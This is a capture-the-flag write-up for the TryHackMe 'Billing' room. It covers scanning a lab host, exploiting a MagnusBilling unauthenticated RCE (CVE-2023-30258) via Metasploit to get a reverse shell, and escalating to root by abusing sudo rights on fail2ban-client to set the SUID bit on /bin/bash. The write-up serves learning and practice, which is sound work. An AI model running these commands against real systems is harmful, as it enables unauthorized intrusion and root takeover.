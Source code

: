 ```yaml
---
clayout: ctf
title: Billing
type: TryHackMe
date: 2025-03-22
level: Easy
icon: /ctf/tryhackme/billing/icon-room.png
image: /ctf/tryhackme/billing/icon-room.png
description: Some mistakes can be costly.
ctf-link: https://tryhackme.com/room/billing
---
```


## Challenge Overview

This challenge involves exploiting a vulnerable instance of MagnusBilling, an open-source billing system for VoIP services. The goal is to gain initial access via a known unauthenticated remote code execution (RCE) vulnerability and escalate privileges to root by abusing misconfigured sudo permissions.

## Enumeration

### Nmap Scan

We begin with a full port scan using Nmap to identify open services and their versions:

```bash
nmap -sC -sV -v -p- -oN billing.nmap 10.10.4.139
```

**Scan Results:**

```
PORT     STATE SERVICE  VERSION
22/tcp   open  ssh      OpenSSH 8.4p1 Debian 5+deb11u3 (protocol 2.0)
80/tcp   open  http     Apache httpd 2.4.56 ((Debian))
3306/tcp open  mysql    MariaDB (unauthorized)
5038/tcp open  asterisk Asterisk Call Manager 2.10.6
```

**Services Identified:**

- `22/tcp`: SSH – OpenSSH 8.4p1
- `80/tcp`: HTTP – Apache 2.4.56, serving a web application
- `3306/tcp`: MariaDB – Access denied (requires authentication)
- `5038/tcp`: Asterisk Call Manager – VoIP management interface

### Web Enumeration

Navigating to `http://10.10.4.139/` reveals a login portal for MagnusBilling.

![MagnusBilling Login Page](/ctf/tryhackme/billing/login.png)

We enumerate accessible web directories using `gobuster`:

```bash
gobuster dir -u http://10.10.4.139/mbilling/ -w /usr/share/wordlists/seclists/Discovery/Web-Content/common.txt -o gobuster.txt
```

**Notable Results:**

```
/LICENSE              (Status: 200) [Size: 7652]
/archive              (Status: 301) [Size: 325] [--> http://10.10.251.102/mbilling/archive/]
/assets               (Status: 301) [Size: 324] [--> http://10.10.251.102/mbilling/assets/]
/fpdf                 (Status: 301) [Size: 322] [--> http://10.10.251.102/mbilling/fpdf/]
/index.html           (Status: 200) [Size: 30760]
/index.php            (Status: 200) [Size: 663]
/lib                  (Status: 301) [Size: 321] [--> http://10.10.251.102/mbilling/lib/]
/resources            (Status: 301) [Size: 327] [--> http://10.10.251.102/mbilling/resources/]
/tmp                  (Status: 301) [Size: 321] [--> http://10.10.251.102/mbilling/tmp/]
```

Reviewing the `LICENSE` file reveals that the application is **MagnusBilling v3**, dating back to 2007.

![License File](/ctf/tryhackme/billing/license.png)

## Exploitation – Unauthenticated RCE (CVE-2023-30258)

After identifying the software version, we search for known vulnerabilities and discover an unauthenticated remote code execution vulnerability in MagnusBilling v3:

> [Rapid7 Advisory – CVE-2023-30258](https://www.rapid7.com/db/modules/exploit/linux/http/magnusbilling_unauth_rce_cve_2023_30258/)

This vulnerability allows attackers to execute commands on the server without authentication.

### Using Metasploit to Exploit

We use Metasploit’s module to exploit the RCE:

```bash
msfconsole
use exploit/linux/http/magnusbilling_unauth_rce_cve_2023_30258
set RHOSTS 10.10.4.139
set RPORT 80
exploit
```

**Result:** We successfully gain a reverse shell as the `asterisk` user.

![Asterisk Shell](/ctf/tryhackme/billing/asterisk-shell.png)

We can now read the `user.txt` flag:

![User Flag](/ctf/tryhackme/billing/user-flag.png)

## Privilege Escalation

### Enumerating Sudo Permissions

We check what commands the `asterisk` user can run with `sudo`:

```bash
sudo -l
```

**Output:**

```
User asterisk may run the following commands on Billing:
    (ALL) NOPASSWD: /usr/bin/fail2ban-client
```

This indicates that the user can run `fail2ban-client` as root without a password.

### Understanding Fail2Ban Misconfiguration

The `fail2ban-client` binary is part of the **Fail2Ban** framework, which manages firewall bans by monitoring logs. It uses actions like `banip` or `actionban` to trigger system commands (e.g., blocking an IP).

By setting a malicious action that runs a command (such as giving `/bin/bash` the SUID bit), we can escalate privileges.

### Exploiting Fail2Ban to Gain Root

We first modify the `actionban` parameter for a jail to execute our payload:

```bash
sudo /usr/bin/fail2ban-client set asterisk-iptables action iptables-allports-ASTERISK actionban 'chmod +s /bin/bash'
```

Then, trigger the ban to execute the malicious action:

```bash
sudo /usr/bin/fail2ban-client set asterisk-iptables banip 10.10.10.10
```

This sets the SUID bit on `/bin/bash`, allowing us to execute it with root privileges:

```bash
/bin/bash -p
```

Now we have a root shell and can retrieve the final flag.